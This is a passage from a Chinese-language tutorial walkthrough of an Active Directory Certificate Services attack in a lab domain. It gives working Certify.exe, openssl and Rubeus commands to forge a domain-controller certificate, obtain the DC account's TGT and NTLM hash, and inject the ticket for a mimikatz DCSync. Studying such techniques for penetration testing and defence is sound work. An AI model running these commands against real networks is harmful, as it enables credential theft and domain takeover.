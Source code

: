 虽然获得的 shell 身份似乎和之前没什么两样，但千万别被骗了，这是意料之中的事。如果你了解网络登录的作用，你就会知道网络登录不会加载用户的配置文件。

此外，在查看脚本时，我们可以看到这里说该进程具有与调用者相同的令牌，但是使用 LSA 创建了一个新的登录会话。

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956585-870674375.png)

好了！这意味着我们应该可以申请新证书，因为我们现在是 "高级用户"，是可以申请证书的正确用户。

> 如果您阅读了申请票据的认证页面，就会发现此步骤是需要提升权限的。但是，我们的计算机帐户严格来说就是一个提升权限的帐户，因为它正在伪造 DC 计算机帐户。

在新的 shell 中，我们可以使用以下 cerfity.exe 命令来请求证书：

    C:\temp\Certify.exe request /ca:Juggernaut-DC.Juggernaut.local\Juggernaut-JUGGERNAUT-DC-CA /template:Machine
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607184000982-105906104.png)

可以看到，我们成功申请到了证书，只不过还需要将其复制粘贴到一个 **cert.pem** 文件中。然后，使用 openssl 将证书转换为 PFX 格式，并将其与 rubeus.exe 一起发送回受害者。

> 需要复制的证书内容：从 BEGIN RSA PRIVATE KEY 开始，到 END CERTIFICATE 结束。当然也包括这两行本身，如果在复制粘贴的过程中在每一行的末尾出现了多余的空格，那么这些空格也需要处理掉才行。

将证书从 PEM 格式转换为 PFX 格式的 openssl 命令如下：

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956523-1076053042.png)

#### **

5.3、申请 TGT 票据

**

在将 PFX 文件、Rubeus.exe 和 mimikatz.exe 一起发送到受害机之后，我们就可以开始使用我们创建的计算机帐户进行恶意攻击了。

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956129-2120521050.png)

使用以下 Rubeus.exe 命令，我们就能够请求到实际 DC 计算机帐户的 TGT 票证，进而获取到 DC 机器账户的 NTLM 哈希值：

    .\Rubeus.exe asktgt /user:Juggernaut-DC$ /certificate:C:\Temp\cert.pfx /outfile:dc.kirbi /getcredentials
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607184014069-265547661.png)

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956271-1724438011.png)

得到 TGT 票据之后，我们可以再次使用 Rubeus.exe 将票证注入当前会话，这将允许我们使用 mimikatz.exe 执行 DCSync 攻击。

要将票证注入当前会话，可使用以下命令：

    .\Rubeus.exe ptt /ticket:dc.kirbi
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956727-2035160540.png)
